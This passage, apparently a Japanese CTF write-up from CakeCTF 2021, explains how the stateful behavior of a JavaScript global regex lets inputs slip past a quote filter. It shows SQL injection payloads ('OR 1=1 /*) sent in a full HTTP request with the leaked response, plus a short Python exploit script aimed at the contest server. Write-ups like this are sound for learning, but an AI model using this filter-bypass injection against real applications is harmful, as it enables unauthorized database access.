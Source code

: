 色々実験したら次のような謎挙動が見つかりました:
```javascript
let filter = /(\'|\\|\s)/g;
["'", "'"].map(name => filter.exec(name))
▶ (2) [Array(2), null]
```

[MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Guide/Regular_Expressions#using_the_global_search_flag_with_exec)によれば、gフラグのついたRegExpオブジェクトは状態が保持されるようです。知らなかった。

`'OR 1=1 /*` を適当に投げます[^1]:
```sh
$ http GET "http://web.cakectf.com:8002/api/neko?name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 156
Content-Type: application/json; charset=utf-8
Date: Sun, 29 Aug 2021 15:53:03 GMT
Keep-Alive: timeout=5
X-Powered-By: Express

{
    "result": [
        {
            "age": 4,
            "name": "Nyanta",
            "nid": 22222222,
            "species": "American Shorthair"
        },
        {
            "age": 4,
            "name": "Nyanta",
            "nid": 22222222,
            "species": "American Shorthair"
        }
    ]
}
```
SQLiできることを確認できました。

[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。

`exploit.py`:
```python
import httpx
import sys


def req(part, n):
    res = httpx.get(
        "http://web.cakectf.com:8002/api/neko",
        params={
            "name[][]": [part] * n,
        },
    )
    assert res.status_code == 200
    print(res.text)


if __name__ == "__main__":
    req(sys.argv[1], 10)
```


[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md